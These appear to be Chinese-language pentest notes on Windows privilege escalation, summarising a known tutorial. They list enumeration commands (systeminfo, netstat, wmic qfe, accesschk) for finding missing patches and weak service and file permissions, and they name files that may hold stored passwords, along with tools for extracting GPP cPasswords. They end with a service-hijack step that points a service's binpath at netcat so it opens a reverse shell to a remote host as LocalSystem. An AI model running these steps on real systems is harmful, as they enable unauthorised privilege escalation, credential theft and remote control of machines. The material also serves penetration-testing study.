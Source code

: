 #  Windows #
对[Windows提权](https://www.fuzzysecurity.com/tutorials/16.html)进行的小小总结
# Δt for t0 to t3 - Initial Information Gathering #
## 1.系统
    C:\Windows\system32> systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
    
    C:\Windows\system32> hostname
    
    C:\Windows\system32> echo %username%
    
## 2.网络

    C:\Windows\system32> net user

    C:\Windows\system32> net user user1

    C:\Windows\system32> ipconfig /all
    
    C:\Windows\system32> route print

*arp -A displays the ARP (Address Resolution Protocol) cache table for all available interfaces.*

C:\Windows\system32> arp -A

C:\Windows\system32> netstat -ano

## 3.防火墙    
    C:\Windows\system32> netsh firewall show config

    C:\Windows\system32> netsh firewall show state

>This will display verbose output for all scheduled tasks, below you can see sample output for a
> single task.系统计划内的任务
> 要用英文编码才能运行：chcp 437
> 中文编码：chcp 936

    C:\Windows\system32> schtasks /query /fo LIST /v

> The following command links running processes to started services.

    
    C:\Windows\system32> tasklist /SVC

    C:\Windows\system32> net start


> This can be useful sometimes as some 3rd party drivers, even by reputable companies, contain more holes
> than Swiss cheese. This is only possible because ring0 exploitation lies outside most peoples expertise.
> 查看系统驱动

    C:\Windows\system32> DRIVERQUERY

## Δt for t4 - The Arcane Arts Of WMIC ##
## 4.wmic命令行 ##
(Windows Management Instrumentation Command-Line)

[wmic具体解释](https://www.computerhope.com/wmic.htm )

[比CMD更强大的命令行：WMIC后渗透利用（系统命令](https://www.freebuf.com/articles/system/182531.html#）)

[WMI在渗透测试中的重要性](https://zhuanlan.zhihu.com/p/37765866)
>1. 检索系统已安装的软件
 
    wmic product list brief |more

>2. 搜索系统运行服务

     wmic service list brief |more

>3. 搜索运行中的程序

     wmic process list brief |more

>4. 搜索启动

     wmic startup list brief |more


## Δt for t5 to t6 - Quick Fails ##

>qfe quick fix engineering
>查看补丁
>
    C:\Windows\system32> wmic qfe get Caption,Description,HotFixID,InstalledOn

>查该系统有没有你希望可以利用的漏洞
>
    C:\Windows\system32> wmic qfe get Caption,Description,HotFixID,InstalledOn | findstr /C:"KB.." /C:"KB.."


此外，有可能在以下文件中会包含系统用户的账号密码，也有可能在其他文件夹中，应该查看整个系统

c:\sysprep.inf
c:\sysprep\sysprep.xml
%WINDIR%\Panther\Unattend\Unattended.xml
%WINDIR%\Panther\Unattended.xml

除了Groups.xml之外，其他几个策略首选项文件可能有可选的“cPassword”属性，这些都是可在[here](https://docs.microsoft.com/en-us/openspecs/main/ms-openspeclp/3589baea-5b22-48f2-9d43-f5bea4960ddb)查到的：
Services\Services.xml: Element-Specific Attributes

ScheduledTasks\ScheduledTasks.xml: Task Inner Element, TaskV2 Inner Element, ImmediateTaskV2 Inner Element

Printers\Printers.xml: SharedPrinter Element

Drives\Drives.xml: Element-Specific Attributes

DataSources\DataSources.xml: Element-Specific Attributes


可以通过以下途径得到这些信息：
1.metasploit的模块：[地址](https://www.rapid7.com/db/modules/post/windows/gather/credentials/gpp)
2.powersploit里的一个方法Get-GPPPassword：[http://github.com/PowerShellMafia/PowerSploit](http://https://github.com/PowerShellMafia/PowerSploit "github地址")



# Δt for t7 to t10 - Roll Up Your Sleeves #



>We can use sc to query, configure and manage windows services. SC 是用于与服务控制管理器和服务进行通信的命令行程序。

    C:\Windows\system32> sc qc Spooler

可以通过[超链接](https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite)下载Microsoft's Sysinternals Suite，利用里面的accesschk.exe可以查询每项服务所需的权限。



// Service permissions

    sc query
    
    sc qc [service_name]
    

// Accesschk stuff

    accesschk.exe /accepteula (always do this first!!!!!)
    
    accesschk.exe -ucqv [service_name] (requires sysinternals accesschk!)
    
    accesschk.exe -uwcqv "Authenticated Users" * (won't yield anything on Win 8)

    accesschk.exe -ucqv [service_name]

// Find all weak folder permissions per drive.

    accesschk.exe -uwdqs Users c:\

    accesschk.exe -uwdqs "Authenticated Users" c:\
    

// Find all weak file permissions per drive.

    accesschk.exe -uwqs Users c:\*.*

    accesschk.exe -uwqs "Authenticated Users" c:\*.*
    
// Binary planting

    sc config [service_name] binpath= "C:\nc.exe -nv [RHOST] [RPORT] -e C:\WINDOWS\System32\cmd.exe"

    sc config [service_name] obj= ".\LocalSystem" password= ""

    sc qc [service_name] (to verify!)

    net start [service_name]
